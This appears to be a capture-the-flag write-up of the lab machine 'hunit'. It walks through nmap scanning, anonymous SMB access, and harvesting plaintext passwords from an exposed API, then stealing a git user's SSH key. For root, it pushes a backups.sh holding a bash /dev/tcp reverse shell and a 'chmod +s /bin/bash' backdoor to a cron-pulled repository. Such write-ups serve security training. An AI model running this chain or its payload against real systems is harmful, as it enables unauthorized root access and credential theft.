




Writeup by wook413

[TOC]

# Enumeration

## Nmap

Like always, I started with a comprehensive TCP scan on all 65,535 ports followed by a targeted scan on the discovered ports and a UDP scan on the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:03 UTC
Nmap scan report for 192.168.159.125
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
8080/tcp  open  http-proxy
12445/tcp open  unknown
18030/tcp open  unknown
43022/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 43.85 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 8080,12445,18030,43022       
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:06 UTC
Nmap scan report for 192.168.159.125
Host is up (0.090s latency).

PORT      STATE SERVICE     VERSION
8080/tcp  open  http        Apache Tomcat (language: en)
|_http-title: My Haikus
12445/tcp open  netbios-ssn Samba smbd 4
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Whack A Mole!
|_http-server-header: Apache/2.4.46 (Unix)
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 7b:fc:37:b4:da:6e:c5:8e:a9:8b:b7:80:f5:cd:09:cb (RSA)
|   256 89:cd:ea:47:25:d9:8f:f8:94:c3:d6:5c:d4:05:ba:d0 (ECDSA)
|_  256 c0:7c:6f:47:7e:94:cc:8b:f8:3d:a0:a6:1f:a9:27:11 (ED25519)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 61.15 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10               
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:07 UTC
Nmap scan report for 192.168.159.125
Host is up (0.048s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
```

# Initial Access

## SMB 12445

The SMB server appeared to be allowing null authentication. I found `Commander` share which contained considerable amount of files.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP -p 12445
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        Commander       Disk      Dademola Files
        IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.159.125 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

```bash
┌──(kali㉿kali)-[~/Desktop]                                        
└─$ smbclient //$IP/Commander -p 12445                                                                                                   
Password for [WORKGROUP\\kali]:                                        
Anonymous login successful            
Try "help" to get a list of possible commands.                   
smb: \\> dir                                    
  .                                   D        0  Fri Nov  6 18:11:27 2020
  ..                                  D        0  Fri Jan 15 17:58:49 2021
  25_tailrec_function.kt              N      479  Fri Nov  6 18:11:16 2020
  30_abstract_class.kt                N      822  Fri Nov  6 18:11:16 2020
  48_lazy_keyword.kt                  N      861  Fri Nov  6 18:11:16 2020
  24_infix_function.kt                N      528  Fri Nov  6 18:11:16 2020
  52_let_scope_function.kt            N      545  Fri Nov  6 18:11:16 2020
  26_class_and_constructor.kt         N      470  Fri Nov  6 18:11:16 2020
  4_variables_data_types.kt           N      493  Fri Nov  6 18:11:16 2020      
  40_arrays.kt                        N      469  Fri Nov  6 18:11:16 2020
  44_filter_map_sorting.kt            N      927  Fri Nov  6 18:11:16 2020
  6_kotlin_basics.kt                  N      163  Fri Nov  6 18:11:16 2020
  35_lambdas_higher_order_functions.kt      N     1190  Fri Nov  6 18:11:16 2020
  5_kotlin_basics.kt                  N      263  Fri Nov  6 18:11:16 2020
  43_set_hashset.kt                   N      498  Fri Nov  6 18:11:16 2020
  10_if_expression.kt                 N      372  Fri Nov  6 18:11:16 2020
  13_while_loop.kt                    N      301  Fri Nov  6 18:11:16 2020
  21_named_parameters.kt              N      251  Fri Nov  6 18:11:16 2020
  42_map_hashmap.kt                   N      601  Fri Nov  6 18:11:16 2020     
  47_lateinit_keyword.kt              N      568  Fri Nov  6 18:11:16 2020
  41_list.kt                          N      704  Fri Nov  6 18:11:16 2020
  17_functions_basics.kt              N      171  Fri Nov  6 18:11:16 2020
  36_lambdas_example_two.kt           N      556  Fri Nov  6 18:11:16 2020
  myKotlinInteroperability.kt         N      228  Fri Nov  6 18:11:16 2020
  3_comments.kt                       N      217  Fri Nov  6 18:11:16 2020
  1_hello_world.kt                    N       80  Fri Nov  6 18:11:16 2020
  22_extension_function_one.kt        N      413  Fri Nov  6 18:11:16 2020
  51_also_scope_function.kt           N      882  Fri Nov  6 18:11:16 2020
  50_apply_scope_function.kt          N      663  Fri Nov  6 18:11:16 2020
  18_functions_as_expressions.kt      N      421  Fri Nov  6 18:11:16 2020
  45_predicate.kt                     N      646  Fri Nov  6 18:11:16 2020
  37_lambdas_closures.kt              N      358  Fri Nov  6 18:11:16 2020                 
  12_for_loop.kt                      N      257  Fri Nov  6 18:11:16 2020
  23_extension_function_two.kt        N      510  Fri Nov  6 18:11:16 2020
  10_default_functions.kt             N      226  Fri Nov  6 18:11:16 2020
```


I am able to upload to the share.

```bash
smb: \\> put cat.jpg                     
putting file cat.jpg as \\cat.jpg (102.9 kb/s) (average 102.9 kb/s)
```

Since there are considerable number of files, I mounted the share into my local Kali.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo mount -t cifs //$IP/Commander/ wooksmb -o guest,port=12445
```

Looking through the files, I found what appeared to be usernames, so I took a note of them.



## HTTP 8080 18030

Whenever I see an HTTP server running, the first thing I do is to run the Nmap script below which found `/api` directory.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8080,18030                 
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:08 UTC
Nmap scan report for 192.168.159.125
Host is up (0.049s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    Apache Tomcat (language: en)
| http-enum: 
|_  /api/: Potentially interesting folder
18030/tcp open  http    Apache httpd 2.4.46 ((Unix))
|_http-server-header: Apache/2.4.46 (Unix)
| http-enum: 
|_  /icons/: Potentially interesting folder w/ directory listing

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 129.98 seconds
```

The server returned the ‘Whitelabel Error Page’ when I visited `/robots.txt` which indicates Spring Boot is being used.





I visited `/api` and it returned the following JSON objects.



I found a few credentials in `/api/article` and `/api/user`

```bash
┌──(kali㉿kali)-[~/Desktop]    
└─$ curl -L <http://$IP:8080/api/article/> | jq            
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current           
                                 Dload  Upload   Total   Spent    Left  Speed 
100  2353    0  2353    0     0  24322      0 --:--:-- --:--:-- --:--:-- 24510                                 
[                                    
  {                                
    "title": "The Taste of Rain", 
    "headline": "Jack Kerouac",    
    "content": "The taste, Of rain, —Why kneel?",
    "author": {                
      "login": "jvargas",                
      "password": "OuQ96hcgiM5o9w",               
      "firstname": "James",            
      "lastname": "Vargas",            
      "description": "Editor",                                                
      "id": 10      
    },                                                                                   
    "slug": "the-taste-of-rain",            
    "addedAt": "2025-02-27T03:22:23.656467",                                  
    "id": 12              
  },                                               
  {                                              
    "title": "In a Station of the Metro",
    "headline": "Ezra Pound",                                                 
    "content": "The apparition of these faces in the crowd; Petals on a wet, black bough.",
    "author": {                                               
      "login": "jvargas",                                     
      "password": "OuQ96hcgiM5o9w",
      "firstname": "James",                                   
      "lastname": "Vargas",                                                   
      "description": "Editor",  
      "id": 10              
    },                                                        
    "slug": "in-a-station-of-the-metro",
    "addedAt": "2025-02-27T03:22:23.655577",
    "id": 11
  },    
  {
    "title": "Over the Wintry",
    "headline": "Natsume Soseki",
    "content": "Over the wintry Forest, winds howl in rage, With no leaves to blow.",
    "author": { 
      "login": "jwinters", 
      "password": "KTuGcSW6Zxwd0Q", 
      "firstname": "Julie",
      "lastname": "Winters",
      "description": "Editor",
      "id": 7
    },
    "slug": "over-the-wintry",
    "addedAt": "2025-02-27T03:22:23.653903",
    "id": 9
  },      
  {
    "title": "A Poppy Blooms",
    "headline": "Katsushika Hokusai",
    "content": "I write, erase, rewrite. Erase again, and then, A poppy blooms.",
    "author": {
      "login": "jwinters",
      "password": "KTuGcSW6Zxwd0Q",
      "firstname": "Julie",
      "lastname": "Winters",
      "description": "Editor",
      "id": 7 
    },
    "slug": "a-poppy-blooms",
    "addedAt": "2025-02-27T03:22:23.652953",
    "id": 8 
  },
  {
    "title": "Lighting One Candle",
    "headline": "Yosa Buson",
    "content": "The light of a candle, Is transferred to another candle—, Spring twilight",
    "author": {
      "login": "jsanchez",
      "password": "d52cQ1BzyNQycg",
      "firstname": "Jennifer",
      "lastname": "Sanchez",
      "description": "Editor",
      "id": 3
    },
    "slug": "lighting-one-candle",
    "addedAt": "2025-02-27T03:22:23.650466",
    "id": 5
  },
  { 
    "title": "A World of Dew",
    "headline": "Kobayashi Issa",
    "content": "A world of dew, And within every dewdrop, A world of struggle. ",
    "author": {
      "login": "jsanchez",
      "password": "d52cQ1BzyNQycg",
      "firstname": "Jennifer",
      "lastname": "Sanchez",
      "description": "Editor",
      "id": 3 
    },
    "slug": "a-world-of-dew",
    "addedAt": "2025-02-27T03:22:23.649477",
    "id": 4
  },
  {
    "title": "The Old Pond",
    "headline": "Matsuo Basho",
    "content": "An old silent pond, A frog jumps into the pond—, Splash! Silence again.",
    "author": {
      "login": "rjackson",
      "password": "yYJcgYqszv4aGQ",
      "firstname": "Richard",
      "lastname": "Jackson",
      "description": "Editor",
      "id": 1 
    }, 
    "slug": "the-old-pond",
    "addedAt": "2025-02-27T03:22:23.640069",
    "id": 2
  }
]   
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -L <http://$IP:8080/api/user/> | jq   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   609    0   609    0     0   6176      0 --:--:-- --:--:-- --:--:--  6214
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

`dademola` is the only user that has a readable password, so I’m going to prioritize the user for authentication.

```bash
jvargas:OuQ96hcgiM5o9w
jwinters:KTuGcSW6Zxwd0Q
jsanchez:d52cQ1BzyNQycg
rjackson:yYJcgYqszv4aGQ
dademola:ExplainSlowQuest110
```

# Shell as `dademola`

## SSH 43022

I was able to login to SSH with `dademola` ’s credentials.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh dademola@$IP -p 43022
dademola@192.168.159.125's password: 
[dademola@hunit ~]$ whoami
dademola
```

Found `local.txt`

```bash
dademola@hunit ~]$ ls
blog.jar  local.txt  shared
```

```bash
[dademola@hunit ~]$ cat local.txt
e9c523042bb9e0815e56be225fd795f2
```

# Privilege Escalation

`cat /etc/passwd` command revealed there’s `git` user and it’s using `git-shell` for default shell.

```bash
[dademola@hunit .ssh]$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:982:982:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:981:981:systemd Network Management:/:/usr/bin/nologin
systemd-resolve:x:980:980:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:979:979:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:978:978:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:977:977:dhcpcd privilege separation:/:/usr/bin/nologin
dademola:x:1001:1001::/home/dademola:/bin/bash
git:x:1005:1005::/home/git:/usr/bin/git-shell
avahi:x:976:976:Avahi mDNS/DNS-SD daemon:/:/usr/bin/nologin
```

As expected, under the `/home` directory, there was git user.

```bash
[dademola@hunit home]$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov  5  2020 .
drwxr-xr-x 18 root     root     4096 Nov 10  2020 ..
drwx------  5 dademola dademola 4096 Jan 15  2021 dademola
drwxr-xr-x  4 git      git      4096 Nov  5  2020 git
```

Also public key and private key are present.

```bash
[dademola@hunit .ssh]$ ls -la
total 20
drwxr-xr-x 2 git  git  4096 Nov  5  2020 .
drwxr-xr-x 4 git  git  4096 Nov  5  2020 ..
-rwxr-xr-x 1 root root  564 Nov  5  2020 authorized_keys
-rwxr-xr-x 1 root root 2590 Nov  5  2020 id_rsa
-rwxr-xr-x 1 root root  564 Nov  5  2020 id_rsa.pub
```

Transferred the private key to my local Kali and I successfully authenticated to SSH, but the shell was very limited not allowing me to execute any commands.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ scp -P 43022 dademola@$IP:/home/git/.ssh/id_rsa .
dademola@192.168.159.125's password: 
id_rsa                                                                                            100% 2590    27.2KB/s   00:00
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa git@$IP -p 43022
Last login: Wed Jan 21 03:44:48 2026 from 192.168.45.236
git> ls
unrecognized command 'ls'
git> help
unrecognized command 'help'
git> git status
unrecognized command 'git'
```

`git-shell-commands` directory is empty, which probably is the reason why none of the commands were recognized.

```bash
[dademola@hunit git]$ ls -la
total 28
drwxr-xr-x 4 git  git  4096 Nov  5  2020 .
drwxr-xr-x 4 root root 4096 Nov  5  2020 ..
-rw------- 1 git  git     0 Jan 15  2021 .bash_history
-rw-r--r-- 1 git  git    21 Aug  9  2020 .bash_logout
-rw-r--r-- 1 git  git    57 Aug  9  2020 .bash_profile
-rw-r--r-- 1 git  git   141 Aug  9  2020 .bashrc
drwxr-xr-x 2 git  git  4096 Nov  5  2020 .ssh
drwxr-xr-x 2 git  git  4096 Nov  5  2020 git-shell-commands
```

There is `git-server`

```bash
[dademola@hunit /]$ ls -la
total 64
drwxr-xr-x  18 root root  4096 Nov 10  2020 .
drwxr-xr-x  18 root root  4096 Nov 10  2020 ..
lrwxrwxrwx   1 root root     7 Sep  2  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Nov  5  2020 boot
drwxr-xr-x  18 root root  3100 Feb 27  2025 dev
drwxr-xr-x  51 root root  4096 Jan 15  2021 etc
drwxr-xr-x   7 git  git   4096 Nov  6  2020 git-server
drwxr-xr-x   4 root root  4096 Nov  5  2020 home
lrwxrwxrwx   1 root root     7 Sep  2  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     7 Sep  2  2020 lib64 -> usr/lib
drwx------   2 root root 16384 Nov  5  2020 lost+found
drwxr-xr-x   2 root root  4096 Sep  2  2020 mnt
drwxr-xr-x   2 root root  4096 Sep  2  2020 opt
dr-xr-xr-x 210 root root     0 Feb 27  2025 proc
drwxr-x---   3 root root  4096 Jan 21 02:02 root
drwxr-xr-x  16 root root   500 Feb 27  2025 run
lrwxrwxrwx   1 root root     7 Sep  2  2020 sbin -> usr/bin
drwxr-xr-x   4 root root  4096 Nov  5  2020 srv
dr-xr-xr-x  13 root root     0 Feb 27  2025 sys
drwxrwxrwt  13 root root   300 Jan 21 04:09 tmp
drwxr-xr-x   8 root root  4096 Nov 10  2020 usr
drwxr-xr-x  12 root root  4096 Nov 10  2020 var
```

`git log` showed me there have been multiple commits.

```bash
[dademola@hunit git-server]$ git log -- 
commit b50f4e5415cae0b650836b5466cc47c62faf7341 (HEAD -> master)
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 21:05:58 2020 -0300

    testing

commit c71132590f969b535b315089f83f39e48d0021e2
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:59:48 2020 -0300

    testing

commit 8c0bc9aa81756b34cccdd3ce4ac65091668be77b
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:54:50 2020 -0300

    testing

commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:39:14 2020 -0300

    Adding backups

commit 025a327a0ffc9fe24e6dd312e09dcf5066a011b5
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:23:04 2020 -0300

    Init
```

There’s this particular commit I’m interested: The user **Dademola** created `backups.sh` that contains nothing but the placeholder for now.

```bash
[dademola@hunit git-server]$ git show 574eba09bb7cc54628f574a694a57cbbd02befa0
commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:39:14 2020 -0300

    Adding backups

diff --git a/backups.sh b/backups.sh
new file mode 100644
index 0000000..5a959db
--- /dev/null
+++ b/backups.sh
@@ -0,0 +1,5 @@
+#!/bin/bash
+#
+#
+# # Placeholder
+#
```

There’s one interesting cron job named `crontab.bak` running under root. Typically, the file extension `.bak` represents a backup file.

```bash
[dademola@hunit git-server]$ ls -la /etc/cron*
-rw-r--r-- 1 root root   74 Oct 31  2019 /etc/cron.deny
-rw-r--r-- 1 root root   66 Jan 15  2021 /etc/crontab.bak

/etc/cron.d:
total 12
drwxr-xr-x  2 root root 4096 Nov  5  2020 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
-rw-r--r--  1 root root  128 Oct 31  2019 0hourly

/etc/cron.daily:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Nov  5  2020 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
-rwxr-xr-x  1 root root  580 Oct 31  2019 0anacron

/etc/cron.monthly:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..

/etc/cron.weekly:
total 8
drwxr-xr-x  2 root root 4096 Oct 31  2019 .
drwxr-xr-x 51 root root 4096 Jan 15  2021 ..
```

I think I’ve just identified a privilege escalation vector via cronjobs running as root. It appears that `/root/pull.sh` (every 2 minutes) fetches updates from the Git server, while `/root/git-server/backups.sh` (every 3 minutes) runs them. If I modify `backups.sh` with a reverse shell and push it to server, the automated sync will pull my code into the root environment and trigger it, granting me root access.

```bash
[dademola@hunit git-server]$ cat /etc/crontab.bak
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

Since the SSH service is running on a non-standard port (43022) and I need to authenticate to the server using a private key, I used the `GIT_SSH_COMMAND` environment variable to authenticate and clone the repository to my local machine.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@$IP:/git-server
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

Now I modified the `backups.sh` file to include a bash reverse shell payload. Don’t forget to make it executable.

```bash
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ ls -la       
total 20
drwxrwxr-x 3 kali kali 4096 Jan 21 04:43 .
drwxr-xr-x 6 kali kali 4096 Jan 21 04:43 ..
-rw-rw-r-- 1 kali kali   34 Jan 21 04:43 backups.sh
drwxrwxr-x 8 kali kali 4096 Jan 21 04:43 .git
-rw-rw-r-- 1 kali kali    0 Jan 21 04:43 NEW_CHANGE
-rw-rw-r-- 1 kali kali   63 Jan 21 04:43 README
                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ cat backups.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/18030 0>&1
chmod +s /bin/bash

┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ chmod +x backups.sh
```

After configuring a dummy git identity, I committed the changes and pushed them back to the server.

```bash
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git add .                                 
                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git commit -m "wook was here"             
Author identity unknown

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: unable to auto-detect email address (got 'kali@kali.(none)')
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git config --global user.email "wook@wook.com"
                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git config --global user.name "wook"

┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git commit -m "wook was here"                 
[master a09ca70] wook was here
 1 file changed, 1 insertion(+), 4 deletions(-)
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 260 bytes | 260.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
To 192.168.159.125:/git-server
   b50f4e5..a09ca70  master -> master
```

# Shell as `root`

After waiting for a few moments, I got the shell as root.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 18030
[+] Listening for reverse shells on 0.0.0.0:18030 →  127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from hunit~192.168.159.125-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/sbin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/hunit~192.168.159.125-Linux-x86_64/2026_01_21-05_27_02-417.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[root@hunit ~]# whoami
root
[root@hunit ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@hunit ~]# 
```

Found `proof.txt`

```bash
[root@hunit ~]# ls
git-server  proof.txt  pull.sh
[root@hunit ~]# cat proof.txt 
9bc...
```